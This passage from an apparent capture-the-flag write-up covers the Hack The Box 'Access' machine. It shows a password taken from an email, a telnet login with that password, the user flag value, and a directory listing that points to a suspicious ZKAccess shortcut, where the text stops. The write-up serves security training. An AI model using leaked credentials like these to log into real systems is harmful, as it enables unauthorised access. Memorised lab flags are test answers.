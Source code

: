 ```

Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John
```
## telnet

So we have a username and a password: ```security:4Cc3ssC0ntr0ller```. Now we can use telnet to connect to the box:

```
┌──(kali㉿kali)-[~/Desktop/HTB/Access]
└─$ telnet -l security 10.10.10.98                                                                                                                                                                                                     1 ⨯
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

We are in :)

Get the User flag:
```
C:\Users\security\Desktop>type user.txt
ff1f3b48913b213a31ff6756d2553d38
```

# Root Flag

In ```Public``` dir there is a suspicious file:
```
C:\Users\Public\Desktop>dir /a
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\Public\Desktop

08/28/2018  07:51 AM    <DIR>          .
08/28/2018  07:51 AM    <DIR>          ..
07/14/2009  05:57 AM               174 desktop.ini
08/22/2018  10:18 PM             1,870 ZKAccess3.5 Security System.lnk
               2 File(s)          2,044 bytes
               2 Dir(s)  16,772,259,840 bytes free
```
